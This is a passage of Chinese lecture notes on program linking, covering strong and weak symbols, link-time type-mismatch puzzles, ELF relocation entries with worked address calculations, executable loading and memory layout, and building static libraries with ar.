linux> gcc -Og -c -fcommon p1.c p2.c
linux> nm p1.o p2.o | grep foo
0000000000000000 D foo # p1.o：.data 中的定义（强）
0000000000000004 C foo # p2.o：C 即 COMMON，尚未分配位置（弱）
linux> gcc -Og -fcommon -o prog p1.o p2.o && ./prog
p2: &foo = 0x55bc2c537010, foo = 5
foo = 5链接器选择了强符号：p2 里读到的 foo 就是 p1.c 中初值为 5 的那个变量，两个模块引用的是同一个地址，可执行文件里只有一个位于 .data 的 foo。p2.o 中 nm 显示的 C 表示 COMMON，即“未初始化、等链接器决定”的弱符号，readelf 的 Ndx 一列显示为 COM。同样两个文件用今天的默认选项编译，p2.o 里的 foo 会直接放进 .bss、成为强符号，链接时报“multiple definition of `foo'”。
链接器按三条规则处理重名（p.23）：
★ 链接器处理重名符号的三条规则
规则 1 是不允许有多个同名的强符号：每个东西只能定义一次，否则链接器报错。
规则 2 是如果有一个强符号和多个同名的弱符号，就选择强符号，对弱符号的引用都被解析到强符号上。
规则 3 是如果有多个同名的弱符号，就从中任意选择一个。
弱符号在符号表里是怎样体现的呢？答案就是上一节提到的伪节 COMMON。按传统做法，编译器遇到未初始化的全局变量 int x;，并不知道别的模块是否也定义了 x，于是不替它分配位置，只在符号表里记一条“x，COMMON，大小 4”，把决定权留给链接器；已初始化的全局变量和函数则直接分配在 .data、.text 里。链接器看到 COMMON 符号，如果别处有同名的强符号就用强符号（规则 2），如果只有若干个 COMMON 就合并成一个，放进 .bss（规则 3）。所以 COMMON 与 .bss 的区别很细微：COMMON 存放未初始化的全局变量，.bss 存放未初始化的静态变量，以及初始化为 0 的全局或静态变量。静态变量别的模块看不见，不可能重名，编译器可以放心地直接把它分配在 .bss 里。
⚠ 重要变化：gcc 10 起，未初始化的全局变量默认不再是弱符号
课件 p.23 在规则 3 下面写着“Can override this with gcc -fno-common”，意思是加上这个选项，未初始化的全局变量就不再放进 COMMON，而是直接分配在 .bss 里、成为强符号，重名时由规则 1 报错。从 2020 年发布的 gcc 10 开始，-fno-common 已经是默认行为。在默认环境的 gcc 13 上，表 4中的 g_uninit 位于 .bss，两个模块各写一个 int x; 会得到链接错误“multiple definition of 'x'”。要重现课件和教材描述的传统行为，需要显式加上 -fcommon 选项。做题时按课件和教材的三条规则回答；在自己的机器上实验时，要知道默认结果已经不同，而且新的默认行为更安全。
⚠ 课件 p.22 关于 extern 的说法不准确
p.22 在“Weak: uninitialized global variables”下面还有一行“Or ones declared with specifier extern”。带 extern 的声明（如 extern int x;）并不定义符号，它只是说明 x 在别处定义；如果本模块用到了 x，符号表里得到的是一个 UND 条目，也就是对外部符号的引用，而不是一个弱的定义。差别在于：只有弱符号时链接器会为它分配空间，只有 extern 声明而没有任何定义时，链接器报“undefined reference”。实测 extern int x; int main(){ return x; } 单独链接，结果正是这个错误。
常见问题：readelf 输出里的 WEAK 和课件说的弱符号是一回事吗？
不是。readelf 的 Bind 一列有 LOCAL、GLOBAL、WEAK 三种取值。课件和教材所说的强符号和弱符号，Bind 都是 GLOBAL，区别只在 Ndx 一列：弱符号是 COM，强符号是某个具体的节。Bind 为 WEAK 的符号是 ELF 格式自己定义的另一种“弱”，在 C 里要用 gcc 的扩展 __attribute__((weak)) 显式声明才会产生，函数和已初始化的变量都可以这样声明。它的含义是“这是一个可以被替换的默认定义”：别的模块有同名的普通定义时用别人的，没有时用这个默认的，两种情况都不报错。实测一个带此属性的函数 hook，单独链接时调用的是默认版本，再链接进一个定义了普通 hook 的模块后，调用的就是那个模块的版本。C 库里大量使用这种符号，为的是让用户能够用自己的实现替换库里的默认实现。
15.6 链接谜题与类型不匹配（课件 p.24–25）#
三条规则加上一个事实——链接器不做类型检查，它只认名字——会产生一些非常隐蔽的错误。课件 p.24 给了五组“链接谜题”，每组是两个模块。表 5列出课件的结论，以及在默认环境上用 -fcommon（传统行为）和默认选项分别实测的结果。为了观察效果，实测时在模块 1 中补了 main 和打印语句，模块 2 的 p2 中补了对 x 的赋值。
表 5 五组链接谜题（课件 p.24）及实测结果
| 模块 1 | 模块 2 | 课件的结论 | gcc 13 加 -fcommon | gcc 13 默认 |
|---|---|---|---|---|
int x; 和 p1() {} | p1() {} | 链接时错误：两个强符号 p1（规则 1） | 报错 multiple definition of 'p1' | 同样报错 |
int x; 和 p1() {} | int x; 和 p2() {} | 两个弱符号，两处的 x 是同一个未初始化的 int（规则 3）。这真是想要的吗？ | 链接通过；p2 中令 x = 100，模块 1 打印出 100 | 报错 multiple definition of 'x' |
int x;、int y; 和 p1() {} | double x; 和 p2() {} | 两个弱符号类型不同；p2 中写 x 可能覆盖 y | 链接通过，x 占 8 字节，y 未被覆盖（见下文） | 报错 |
int x = 7;、int y = 5; 和 p1() {} | double x; 和 p2() {} | 强符号是 4 字节的 int；p2 中按 double 写 x 会覆盖 y | 链接通过并给出警告；y 被覆盖 | 报错 |
int x = 7; 和 p1() {} | int x; 和 p2() {} | 两处的 x 都是模块 1 中已初始化的那个变量（规则 2） | 链接通过；p2 中令 x = 100，模块 1 打印出 100 | 报错 |
第四组最危险，值得把内存画出来看。模块 1 定义了强符号 x 和 y，各 4 字节，在 .data 节里相邻存放；模块 2 以为 x 是 8 字节的 double。链接器按规则 2 选择模块 1 的 x，它的地址只对应 4 字节的空间。模块 2 的 p2 执行 x = -0.0; 时，编译器生成的是一条写 8 字节的指令，于是低 4 字节写进了 x，高 4 字节写进了紧挨着的 y，如图 3所示。-0.0 的位模式是 0x8000000000000000，实测程序打印出 x = 0x0、y = 0x80000000：y 原来的值 5 被悄悄改掉了，而修改它的代码里根本没有出现 y 这个名字。链接时 ld 只给出一条容易被忽略的警告（alignment 4 of normal symbol 'x' is smaller than 8 used by the common definition）。
图 3 链接器不检查类型的后果（课件 p.24 第四组）：模块 2 按 double 向 x 写入 8 个字节，高 4 字节覆盖了相邻的 y
第三组的两个 x 都是弱符号，课件说“might overwrite y”。在 GNU ld 上实测，y 并没有被覆盖：多个 COMMON 符号大小不同时，ld 按其中最大的一个分配空间，x 得到了 8 字节（nm -S 显示 x 的大小为 8），位置也和 y 错开了。但这只是这个链接器的做法，规则 3 说的是“任意选择”，程序的正确性不应该依赖于此；况且模块 1 仍然把 x 当作 int 来读写，两个模块对同一块内存的理解并不一致。课件还提到一种噩梦般的场景：两个模块中有同名的弱结构体变量，定义相同，却是用对齐规则不同的编译器编译的，字段的偏移对不上，错误会出现在离出错原因很远的地方。
这类错误可以通过良好的习惯避免，课件 p.25 列了五条。第一，尽量不用全局变量。第二，能用 static 的地方都用 static，让名字不出模块。第三，所有非 static 的全局名字都在头文件里声明，并且在每个用到它的源文件里包含这个头文件，定义它的那个源文件也要包含，这样编译器能替我们检查声明和定义是否一致。第四，头文件里的声明一律写上 extern：对函数声明来说 extern 可有可无，对变量来说则必不可少，int x; 写在头文件里，每个包含它的模块都会得到一个（传统上是弱的）定义，而 extern int x; 只是声明。第五，没有参数的函数要写成 (void)，例如 extern void no_args(void);；在 C 语言里，空的括号表示“不说明这个函数接受什么参数”，编译器因此不再检查调用时的参数。
15.7 重定位：合并节与重定位条目（课件 p.26–29）#
符号解析结束时，链接器已经把代码中的每个符号引用和恰好一个符号定义（某个输入模块中的一个符号表条目）对应起来，也知道了各个输入模块中代码节和数据节的确切大小。接下来的重定位分两步（p.27）。
第一步是重定位节和符号定义。链接器把所有输入模块中相同类型的节合并成一个新的聚合节：各个模块的 .text 节合并成可执行文件的 .text 节，各个 .data 节合并成 .data 节，如此等等。然后链接器给每个聚合节分配运行时内存地址，进而给输入模块定义的每个节、每个符号都分配了运行时地址。这一步完成后，程序中每条指令和每个全局变量都有了唯一的运行时地址。图 4按课件 p.26 画出了 main.o 和 sum.o 的情形：可执行文件的 .text 节里依次是系统代码、main、sum 和另一些系统代码，.data 节里是系统数据和 array。这里的“系统代码”来自 gcc 自动加进来的几个启动目标文件（crt1.o 等），它们负责在 main 之前做准备工作、在 main 返回之后收尾；.symtab 和 .debug 也会合并，但它们不被加载进内存。
图 4 重定位的第一步（课件 p.26）：把各个输入模块中同类的节合并，并分配运行时地址
第二步是重定位节中的符号引用。链接器修改代码节和数据节中对每个符号的引用，使它们指向正确的运行时地址。要做到这一点，链接器需要知道哪些位置要改、改成哪个符号的地址、按什么方式计算，这些信息由汇编器事先写在可重定位目标文件的重定位条目（relocation entry）里。
重定位条目与两种基本类型#
汇编器生成目标模块时，并不知道代码和数据最终会放在内存的什么位置，也不知道本模块引用的外部函数和全局变量在哪里。所以，每当汇编器遇到一个最终位置未知的引用，它就生成一个重定位条目，告诉链接器在合并目标文件时怎样修改这个引用。代码的重定位条目放在 .rela.text 节，已初始化数据的重定位条目放在 .rela.data 节。
x86-64 上一个重定位条目占 24 字节，课件 p.28 给出了它在 binutils 源码中的定义：
typedef struct {
Elf64_Addr r_offset; /* 要修改的引用在所在节中的偏移 */
Elf64_Xword r_info; /* 高 32 位：符号在符号表中的序号；低 32 位：重定位类型 */
Elf64_Sxword r_addend; /* 加数：一个带符号的常数，某些类型用它调整偏移 */
} Elf64_Rela;
#define ELF64_R_SYM(i) ((i) >> 32)
#define ELF64_R_TYPE(i) ((i) & 0xffffffff)三个字段回答了三个问题。r_offset 回答“改哪里”：它是被修改的引用相对于所在节起始位置的偏移。r_info 把两项信息压在一个 64 位整数里：高 32 位（用宏 ELF64_R_SYM 取出）是被引用的符号在符号表中的序号，回答“指向谁”；低 32 位（用宏 ELF64_R_TYPE 取出）是重定位类型，回答“怎么改”。r_addend 是一个带符号的常数，有些类型的重定位要用它对结果做偏移调整。教材为了叙述方便，把同样的信息写成 offset、symbol、type、addend 四个字段。
⚠ 课件 p.28 的宏名
p.28 下方的说明文字把两个宏写成了 ELF_64_R_SYM 和 ELF_64_R_TYPE，多了一个下划线；同一页代码里的写法 ELF64_R_SYM、ELF64_R_TYPE 才是正确的名字。
ELF 为 x86-64 定义了几十种重定位类型，课件只关心最基本的两种（p.29）。R_X86_64_PC32 重定位一个使用 32 位 PC 相对地址的引用。第 5 讲讲过，call 和 jmp 指令里编码的不是目标的绝对地址，而是目标地址与“下一条指令地址”之差；CPU 执行这条指令时，把指令中的 32 位值加到 PC 的当前值上，得到有效地址。R_X86_64_32 重定位一个使用 32 位绝对地址的引用，CPU 直接把指令中编码的 32 位值当作有效地址；它还有一个带符号扩展的变体 R_X86_64_32S。
教材图 7.10 用一段伪代码给出了链接器的重定位算法（课件 p.29 下半部分）。设每个节 s 是一个字节数组，每个重定位条目 r 是一个结构；ADDR(s) 表示链接器为节 s 选定的运行时地址，ADDR(r.symbol) 表示为符号选定的运行时地址。
foreach section s {
foreach relocation entry r {
refptr = s + r.offset; /* 指向要修改的 4 个字节 */
/* 重定位 PC 相对引用 */
if (r.type == R_X86_64_PC32) {
refaddr = ADDR(s) + r.offset; /* 这 4 个字节的运行时地址 */
*refptr = (unsigned) (ADDR(r.symbol) + r.addend - refaddr);
}
/* 重定位绝对引用 */
if (r.type == R_X86_64_32)
*refptr = (unsigned) (ADDR(r.symbol) + r.addend);
}
}表 6把两种类型的计算公式和适用场合并排列出。公式里 S 代表符号的运行时地址，A 代表加数，P 代表被修改位置的运行时地址，这是 ABI 文档中通用的记号。
表 6 两种最基本的重定位类型
| 类型 | 填入的值 | 用在哪里 |
|---|---|---|
| R_X86_64_PC32 | S + A − P（32 位有符号补码，可为负，执行时符号扩展） | call、jmp 的目标，以及 symbol(%rip) 形式的 PC 相对数据访问；A 通常是 −4 |
| R_X86_64_32（和 32S） | S + A（32 零扩展，要求结果小于 232；32S 符号扩展，范围 −231 到 231 − 1） | 把符号地址当作 32 位立即数或位移量直接写进指令，如 movl $array, %edi；只能用于地址不超过 32 位的非位置无关代码 |
15.8 完整算例：main.o 的两个重定位条目（课件 p.30–36）#
现在用课件的例子把整个过程走一遍。汇编器为 main.c 生成的 main.o 中，main 的代码如下（p.34，objdump -dr main.o 的输出；课件的编译方式相当于今天的 gcc -c -fno-pie，默认环境实测得到的机器代码与课件逐字节相同）：
0000000000000000 <main>:
0: 55 push %rbp
1: 48 89 e5 mov %rsp,%rbp
4: 48 83 ec 20 sub $0x20,%rsp
8: 89 7d ec mov %edi,-0x14(%rbp)
b: 48 89 75 e0 mov %rsi,-0x20(%rbp)
f: be 02 00 00 00 mov $0x2,%esi
14: bf 00 00 00 00 mov $0x0,%edi # %edi = &array
15: R_X86_64_32 array # 重定位条目
19: e8 00 00 00 00 callq 1e <main+0x1e> # sum()
1a: R_X86_64_PC32 sum-0x4 # 重定位条目
1e: 89 45 fc mov %eax,-0x4(%rbp)
21: 8b 45 fc mov -0x4(%rbp),%eax
24: c9 leaveq
25: c3 retqmain 引用了两个全局符号。偏移 0x14 处的 mov 指令要把 array 的地址装进 %edi，操作码 bf 之后的 4 个字节（偏移 0x15–0x18）应当是这个地址，现在填的是 0。偏移 0x19 处的 call 指令要调用 sum，操作码 e8 之后的 4 个字节（偏移 0x1a–0x1d）应当是到 sum 的 PC 相对偏移，现在也是 0。objdump 把两个重定位条目夹在了对应的指令下面，实际上它们存放在单独的 .rela.text 节里，用 readelf -r main.o 可以直接看到（p.30）：
Relocation section '.rela.text' at offset 0x560 contains 2 entries:
Offset Info Type Sym. Value Sym. Name + Addend
000000000015 00080000000a R_X86_64_32 0000000000000000 array + 0
00000000001a 000a00000002 R_X86_64_PC32 0000000000000000 sum - 4
Relocation section '.rela.eh_frame' at offset 0x590 contains 1 entries:
Offset Info Type Sym. Value Sym. Name + Addend
000000000020 000200000002 R_X86_64_PC32 0000000000000000 .text + 0每一行是一个 Elf64_Rela。第一行的 Offset 是 0x15；Info 是 0x00080000000a，高 32 位的 8 是 array 在符号表中的序号，低 32 位的 0xa 是 R_X86_64_32 的类型编号；加数是 0。第二行的 Offset 是 0x1a；Info 的高 32 位 0xa 是 sum 在符号表中的序号，低 32 位的 2 是 R_X86_64_PC32 的类型编号；加数是 −4。readelf 已经替我们把序号翻译成了符号名、把类型编号翻译成了类型名。第三条在 .rela.eh_frame 节，它修改的是异常处理和调试用的栈展开信息中对 .text 的引用，与程序逻辑无关，可以不管。课件 p.33 还展示了 sum.o 的重定位信息：sum 的代码里只有对参数和局部变量的访问，以及函数内部的跳转（这些跳转的偏移汇编器自己就能算出来），没有引用任何全局符号，所以 sum.o 没有 .rela.text 节，只有 .rela.eh_frame 里的那一条。
课件 p.31–32 把这两个条目翻译成了汇编器写给链接器的两封“信”，这个比喻很好地说明了重定位条目的作用。第一封信说：亲爱的链接器，请修补 .text 节偏移 0x15 处的内容，在那里填入一个 32 位的值；等你确定了 array 的地址，请计算“array 的地址 + 加数 0”，把结果放在那个位置。第二封信说：请修补 .text 节偏移 0x1a 处的内容，在那里填入一个 32 位的 PC 相对值；等你确定了 sum 的地址，请计算“sum 的地址 + 加数（−4）−（本节的地址 + 偏移）”，把结果放在那个位置。
⚠ 课件 p.30 的“3 symbols to be relocated”
p.30 底部写“Totally 3 symbols to be relocated”，p.33 写“1 symbol to be relocated (.text)”。准确地说，这里数的是重定位条目的个数，也就是需要修改的引用的个数：main.o 有 3 处（.rela.text 两处、.rela.eh_frame 一处），sum.o 有 1 处。符号本身的地址是在重定位的第一步统一分配的，一个符号可以被引用很多次，每次引用各有一个重定位条目。
链接器完成第一步之后，各个节和符号都有了地址。课件为了让数字醒目，用链接脚本把代码放在了 0xbabe00、数据放在了 0xcafe00（p.36）。表 7列出课件上的地址，以及默认环境上不加特殊设置（gcc -no-pie -o prog main.o sum.o）时实际得到的地址，两套数字下面都会算一遍。
表 7 重定位第一步分配的运行时地址
| 对象 | 课件 p.36 | 默认环境实测 |
|---|---|---|
| 可执行文件 .text 节的起点（_start） | 0xbabe00 | 0x401020 |
| main（即 main.o 的 .text 节） | 0xbabf18 | 0x401106 |
| sum（即 sum.o 的 .text 节） | 0xbabf40 | 0x40112c |
| 可执行文件 .data 节的起点 | 0xcafe00 | 0x404000 |
| array（即 main.o 的 .data 节） | 0xcafe10 | 0x404010 |
main 没有落在 .text 节的起点，是因为它前面还有 _start 等系统代码；sum.o 在命令行上排在 main.o 之后，它的代码也就紧跟在 main 之后（main 长 0x26 字节，0xbabf18 + 0x26 = 0xbabf3e，对齐后 sum 从 0xbabf40 开始）。算法中的 ADDR(s) 指的是输入模块 main.o 的 .text 节被安排到的地址，也就是 main 的地址，而不是合并后整个 .text 节的起点，这一点在套公式时最容易弄错。
先算绝对引用。重定位条目是 offset = 0x15、symbol = array、type = R_X86_64_32、addend = 0。按算法，填入的值是 ADDR(array) + addend = 0xcafe10 + 0 = 0xcafe10。链接器把这个值按小端法写进 main 的偏移 0x15 处，也就是地址 0xbabf18 + 0x15 = 0xbabf2d 开始的 4 个字节，指令从 bf 00 00 00 00 变成：
babf2c: bf 10 fe ca 00 mov $0xcafe10,%edi # %edi = &array再算 PC 相对引用。重定位条目是 offset = 0x1a、symbol = sum、type = R_X86_64_PC32、addend = −4。先求被修改位置的运行时地址，再求要填入的值：
refaddr = ADDR(s) + r.offset = 0xbabf18 + 0x1a = 0xbabf32
*refptr = ADDR(r.symbol) + r.addend - refaddr
= 0xbabf40 + (-4) - 0xbabf32
= 0xa链接器把 0xa 写进地址 0xbabf32 开始的 4 个字节，call 指令从 e8 00 00 00 00 变成：
babf31: e8 0a 00 00 00 callq babf40 <sum> # sum()图 5把这次计算画了出来。验证一下这个值对不对：程序运行到这条 call 指令时，CPU 取出指令后，PC 已经指向下一条指令，即 0xbabf31 + 5 = 0xbabf36。CPU 先把这个返回地址压栈，再把 PC 改为 PC + 0xa = 0xbabf36 + 0xa = 0xbabf40，正是 sum 的第一条指令。
注意这里填入的 0xa 是正数，只是因为 sum 恰好排在 main 之后。这个 4 字节字段是 32 位有符号补码（范围约 ±2 GB），执行时会符号扩展成 64 位再加到 PC 上：目标在后为正，在前为负。例如若 sum 位于 0xbabf00，算得 −0x36，指令里就会以补码 0xFFFFFFCA（小端 ca ff ff ff）存放，同样可用“0xbabf36 + (−0x36) = 0xbabf00”验算。
图 5 重定位 main 中对 sum 的 PC 相对引用（课件 p.36 的数值）：填入的值等于 sum 的地址减去下一条指令的地址
常见问题：PC 相对引用的加数为什么是 −4？
PC 相对寻址以“下一条指令的地址”为基准，而重定位条目记录的 offset 是被修改的 4 个字节自身的位置。对 call 指令来说，这 4 个字节是指令的最后 4 个字节，下一条指令就在它后面，两者正好相差 4。所以正确的偏移是 ADDR(sum) −（refaddr + 4）= ADDR(sum) − 4 − refaddr，汇编器把这个固定的 −4 预先写进了加数里，链接器套用统一的公式 S + A − P 就能得到正确结果。上面的例子中，下一条指令的地址是 0xbabf36，refaddr 是 0xbabf32，相差恰好是 4。如果被修改的 4 个字节后面还跟着别的字节（例如带立即数的指令 movl $1, x(%rip)，位移量后面还有 4 字节的立即数），加数就会是 −8，原理相同。
在默认环境上重复同样的计算，结果可以直接和 objdump 的输出比对。绝对引用：ADDR(array) + 0 = 0x404010，写成字节是 10 40 40 00。PC 相对引用：refaddr = 0x401106 + 0x1a = 0x401120，填入的值是 0x40112c − 4 − 0x401120 = 0x8。实际得到的可执行文件中，这两条指令和数据节的内容是：
linux> objdump -d prog
0000000000401106 <main>:
...
40111a: bf 10 40 40 00 mov $0x404010,%edi
40111f: e8 08 00 00 00 call 40112c <sum>
401124: 89 45 fc mov %eax,-0x4(%rbp)
...
000000000040112c <sum>:
linux> objdump -s -j .data prog
404010 01000000 02000000两处都与手算一致：0x401124 + 0x8 = 0x40112c，地址 0x404010 处存放的正是数组的两个元素 1 和 2。重定位完成后，可执行文件里不再有 .rela.text 节，所有引用都已经是最终的值。
常见问题：自己编译 main.c，看到的重定位条目为什么和课件不一样？
在默认环境上直接 gcc -c main.c，会看到两处不同。第一，call 的重定位类型是 R_X86_64_PLT32 而不是 R_X86_64_PC32。2018 年以后的汇编器对所有函数调用都生成这种类型，它的意思是“如果 sum 最后在共享库里，就让这个引用指向 sum 的过程链接表条目（15.12 节）”；当 sum 就定义在可执行文件内部时，链接器按与 PC32 完全相同的公式 S + A − P 计算，上面实测的例子就是这种情况。第二，取 array 地址的指令不再是 movl $array, %edi 配 R_X86_64_32，而是 leaq array(%rip), %rax 配 R_X86_64_PC32（加数 −4）。这是因为现在的 gcc 默认生成位置无关的可执行文件（PIE），程序被加载到哪个地址要到运行时才知道，代码里不能出现绝对地址，访问全局数据也改用 PC 相对寻址。给 gcc 加上 -fno-pie（编译时）和 -no-pie（链接时），就回到课件的情形。
除了代码，数据也可能需要重定位。表 4的 kinds.c 中有一行 char *msg = "hi";，变量 msg 位于 .data 节，它的初值是字符串的地址，这个地址同样要到链接时才确定。汇编器在 .rela.data 节里为它生成一个类型为 R_X86_64_64 的条目，让链接器把 8 字节的绝对地址填进去。作业 7.6 的 swap.c 中 int *bufp0 = &buf[0]; 也是这种情况。
15.9 可执行目标文件与加载（课件 p.37）#
链接器的输出是可执行目标文件。它的格式与可重定位目标文件类似（课件 p.37 的左半部分）：ELF 头描述文件的总体格式，其中包含程序的入口点（entry point），即程序运行时要执行的第一条指令的地址；.text、.rodata、.data 节与可重定位目标文件中的同名节相似，只是已经被重定位到最终的运行时地址；多了一个 .init 节，里面有一个小函数 _init，供程序的初始化代码调用；因为已经完全链接，不再需要 .rel 节。最重要的区别是多了程序头部表，它描述文件中连续的片（chunk）怎样映射到连续的内存段。对 15.8 节的 prog 执行 readelf -l，其中类型为 LOAD 的四行是要加载进内存的段：
linux> readelf -l prog
Elf file type is EXEC (Executable file)
Entry point 0x401020
Program Headers:
Type Offset VirtAddr FileSiz MemSiz Flg Align
LOAD 0x000000 0x0000000000400000 0x000498 0x000498 R 0x1000
LOAD 0x001000 0x0000000000401000 0x000181 0x000181 R E 0x1000
LOAD 0x002000 0x0000000000402000 0x000064 0x000064 R 0x1000
LOAD 0x002e38 0x0000000000403e38 0x0001e0 0x0001e8 RW 0x1000
Section to Segment mapping:
第 1 个 LOAD（文件头等只读信息）：.interp .note... .dynsym .dynstr .rela.dyn
第 2 个 LOAD（代码）： .init .text .fini
第 3 个 LOAD（只读数据）： .rodata .eh_frame_hdr .eh_frame
第 4 个 LOAD（可读写的数据）： .init_array ... .dynamic .got .got.plt .data .bss每一行描述一个段：文件中从 Offset 开始的 FileSiz 个字节，映射到内存中从 VirtAddr 开始的区域，这个段在内存中共占 MemSiz 个字节，访问权限是 Flg（R 读、W 写、E 执行）。第二个段的权限是“读、执行”，包含 .init、.text 等代码节，这就是代码段；第四个段的权限是“读、写”，包含 .data 和 .bss，这就是数据段。数据段的 MemSiz（0x1e8）比 FileSiz（0x1e0）多 8 个字节，多出来的正是 .bss：它在文件中不占空间，加载时在内存中分配并清零。教材图 7.14 中只有“代码段”和“数据段”两个段，今天的链接器出于安全考虑把只读而不可执行的内容（ELF 头、.rodata 等）单独分了出去，所以实际看到四个，基本道理没有变。Align 一列是对齐要求 0x1000 = 4096 字节，即一个页的大小；链接器保证每个段的 VirtAddr 和 Offset 对 Align 取模相等（如 0x403e38 与 0x2e38 的低 12 位都是 0xe38），这样文件内容可以按页直接映射到内存，这种映射的机制要到虚拟内存一讲才能完全解释。
在 shell 中输入 ./prog，shell 会调用操作系统中称为加载器（loader）的代码来运行它，任何程序也可以通过 execve 系统调用启动加载器（下一讲）。加载器按照程序头部表的指示，把可执行文件中的代码和数据从磁盘复制（确切地说是映射）到内存，然后跳转到入口点开始执行。这个把程序复制到内存并运行的过程叫加载（loading）。图 6是课件 p.37 的图：左边是磁盘上的可执行文件，右边是每个 Linux 程序运行时的内存映像。
图 6 加载可执行目标文件（课件 p.37）：可执行文件的代码段和数据段被映射到进程的地址空间，栈、堆和共享库的区域在运行时创建
内存映像自下而上是这样安排的。最低的一段地址不使用。代码段从一个固定的地址开始（传统的 x86-64 Linux 程序是 0x400000，课件图上标的 0xbabe00 是它自己设定的），后面是数据段。数据段之后是运行时堆，由 malloc 管理，通过移动堆顶指针 brk 向上增长。用户栈从用户可用的最高地址开始向下增长，寄存器 %rsp 指向栈顶。栈和堆之间有一大片区域，课件标着“Something uncertain / Differs in static/dyn linking”：动态链接的程序把共享库（如 C 库和动态链接器本身）映射在这里，静态链接的程序则没有这些内容。最上面是内核的内存，用户代码不可见。
课件的图和实际情况可以对上。写一个小程序，打印若干地址并输出 /proc/self/maps 的内容（内核提供的当前进程内存映射清单），程序如下：
#include <stdio.h>
#include <stdlib.h>
int g = 1; /* 已初始化的全局变量 */
int b; /* 未初始化的全局变量 */
int main()
{
int l; /* 局部变量 */
void *h = malloc(16);
printf("main %p\ng %p\nb %p\nheap %p\nstack %p\nprintf %p\n",
(void *)main, (void *)&g, (void *)&b, h, (void *)&l, (void *)printf);
FILE *f = fopen("/proc/self/maps", "r");
char s[256];
while (fgets(s, 256, f)) /* 把 /proc/self/maps 原样输出 */
fputs(s, stdout);
return 0;
}用 -no-pie 编译，在关闭地址随机化的情况下运行。下面把打印的地址整理在前两行，maps 部分省略了偏移、设备号等列，并在右边注明各区域的内容：
main = 0x4011d6 全局变量 g = 0x404040 未初始化全局变量 b = 0x404054
malloc 得到的块 = 0x4052a0 局部变量 = 0x7fffffff9eec
00400000-00401000 r--p .../maps 文件头等只读信息
00401000-00402000 r-xp .../maps 代码段（.init .text）
00402000-00403000 r--p .../maps 只读数据（.rodata）
00403000-00404000 r--p .../maps 加载后改为只读的数据（.got 等）
00404000-00405000 rw-p .../maps 数据段（.data .bss）
00405000-00426000 rw-p [heap] 运行时堆
7ffff7c00000-7ffff7e06000 libc.so.6 共享库的内存映射区域
7ffff7fc5000-7ffff7fff000 ld-linux-x86-64.so.2
7ffffffda000-7ffffffff000 rw-p [stack] 用户栈main 在代码段内，两个全局变量在数据段内，malloc 返回的地址在堆内，局部变量在栈内，C 库和动态链接器位于栈下方的共享库区域，与图 6完全吻合。实际系统中，栈、共享库和堆的起始地址每次运行都会随机变化（地址空间布局随机化，第 8 讲），上面为了得到稳定的数字用 setarch -R 关掉了它；默认的 PIE 可执行文件连代码段和数据段的地址也是随机的。
加载器跳转到的入口点并不是 main，而是 _start（上面 readelf 输出中的 0x401020），它定义在系统目标文件 crt1.o 中，所有 C 程序都一样。_start 调用 C 库中的 __libc_start_main，后者初始化执行环境，调用用户的 main 函数，处理 main 的返回值，并在需要时把控制交还给内核。这就是图 4中“系统代码”的来历，也解释了为什么 main 的返回值会成为进程的退出状态。
15.10 静态库（课件 p.38–44）#
到目前为止，链接器的输入都是一个个单独的可重定位目标文件。程序员经常要用到的函数（数学运算、输入输出、内存管理、字符串处理等等）该怎样提供给大家？按已有的链接框架，有两种笨办法（p.38）。一种是把所有函数放进一个源文件，编译成一个巨大的目标文件，每个程序都把它整个链接进去；这样做空间和时间上都浪费，每个可执行文件都带着一份完整的库，改动任何一个函数都要重新编译整个文件。另一种是每个函数一个源文件，各自编译，程序员用到哪个就在命令行上写哪个；这样效率高，但程序员的负担很重，一条链接命令可能要列出几十个文件，漏一个就出错。
静态库（static library）是对这个矛盾的传统解法（p.39）。把相关的可重定位目标文件连接成一个带索引的文件，称为存档（archive），后缀是 .a；同时增强链接器，让它遇到尚未解析的外部引用时，到一个或多个存档中去找定义了这些符号的成员；如果存档中某个成员解析了引用，就只把这个成员链接进可执行文件。这样既保留了“每个函数单独编译”的精细，又免去了程序员逐个列出文件的麻烦：命令行上只需写库的名字，链接器自己挑用得到的模块。
存档用 ar 工具创建（p.40）。例如 C 标准库的构建过程大致是：把 atoi.c、printf.c、random.c 等分别编译成 atoi.o、printf.o、random.o，再执行 ar rs libc.a atoi.o printf.o ... random.o 把它们收进 libc.a，如图 7（a）所示。选项 r 表示把成员加入存档（已存在则替换），s 表示建立符号索引。存档支持增量更新：某个函数改了，只需重新编译它所在的那个 .c 文件，再用 ar 替换存档中对应的 .o。
图 7 静态库（课件 p.40、p.43）：（a）用 ar 把目标文件打包成存档；（b）与静态库链接时，链接器只复制存档中被引用的成员
最常用的两个库是 libc.a（C 标准库：输入输出、内存分配、信号处理、字符串处理、日期和时间、随机数、整数运算）和 libm.a（C 数学库：sin、cos、tan、log、exp、sqrt 等浮点函数），库的名字按惯例以 lib 开头。课件 p.41 给的数字是 libc.a 约 4.6 MB、含 1496 个目标文件，libm.a 约 2 MB、含 444 个目标文件，并注明不同版本会有差别。默认环境（glibc 2.39）上，libc.a 是 6.1 MB、含 2211 个目标文件，数学库是 2.6 MB、含 801 个目标文件。用 ar -t 可以列出存档的成员，课件列出的 fork.o、fprintf.o、fscanf.o、fseek.o 和 e_acos.o、e_asin.o 等在今天的库里依然能找到；用 ar -x 可以把成员解出来再用 nm 查看，研讨题 2（2）有具体的例子。
⚠ 课件 p.41 的笔误
libc.a 的功能列表中“data and time”应为“date and time”（日期和时间）。
与静态库链接：解析算法与命令行顺序#
课件用一个小小的向量库演示怎样创建和使用静态库（p.42）。库里有两个函数，各占一个源文件；主程序 main2.c 只调用了其中的 addvec，头文件 vector.h 里是两个函数的原型。
/* addvec.c */ /* multvec.c */
void addvec(int *x, int *y, void multvec(int *x, int *y,
int *z, int n) int *z, int n)
{ {
int i; int i;
for (i = 0; i < n; i++) for (i = 0; i < n; i++)
z[i] = x[i] + y[i]; z[i] = x[i] * y[i];
} }
/* main2.c */
#include <stdio.h>
#include "vector.h"
int x[2] = {1, 2};
int y[2] = {3, 4};
int z[2];
int main(int argc, char **argv)
{
addvec(x, y, z, 2);
printf("z = [%d %d]\n", z[0], z[1]);
return 0;
}建库和链接的命令如下（p.43），最后一条命令中的 -static 要求生成完全链接的可执行文件，不依赖任何共享库；-L. 让链接器在当前目录中找库；-lvector 是 libvector.a 的缩写。
linux> gcc -Og -c addvec.c multvec.c main2.c
linux> ar rs libvector.a addvec.o multvec.o
linux> gcc -static -o prog2c main2.o -L. -lvector
linux> ./prog2c
